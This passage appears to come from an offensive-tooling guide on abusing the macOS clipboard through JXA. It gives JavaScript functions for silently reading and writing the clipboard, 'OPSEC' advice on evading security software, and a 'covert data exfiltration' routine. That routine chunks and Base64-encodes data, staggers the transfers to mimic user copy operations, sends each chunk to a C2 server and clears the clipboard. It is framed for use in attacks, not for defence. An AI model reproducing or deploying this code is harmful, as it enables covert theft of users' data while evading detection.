 Use this function to silently read clipboard content. Be aware that frequent clipboard reads might be detected by security software.

### Writing to Clipboard

```javascript
function writeToClipboard(text) {
    ObjC.import('AppKit');
    const pasteboard = $.NSPasteboard.generalPasteboard;
    pasteboard.clearContents;
    pasteboard.setStringForType(text, $.NSPasteboardTypeString);
}
```

Use this function to write data to the clipboard. Avoid writing sensitive data directly; consider encoding or encrypting it first.

### OPSEC Considerations

1. Minimize clipboard operations to avoid detection.
2. Clear the clipboard after use to prevent data leakage.
3. Be aware that some security software may monitor clipboard changes.
4. Consider using the clipboard as a covert channel for data transfer between processes.

### Scenario: Covert Data Exfiltration

```javascript
function exfiltrateViaClipboard(data) {
    const chunks = chunkData(data, 1024);
    chunks.forEach((chunk, index) => {
        setTimeout(() => {
            writeToClipboard(btoa(chunk)); // Base64 encode the chunk
            // Simulate a copy operation here
            setTimeout(() => {
                const clipboardContent = readClipboard();
                sendDataToC2(clipboardContent);
                writeToClipboard(""); // Clear clipboard
            }, 1000);
        }, index * 5000); // 5 seconds between chunks
    });
}
```

This scenario demonstrates using the clipboard for covert data exfiltration, mimicking user copy operations and clearing the clipboard after each transfer to minimize detection risk.
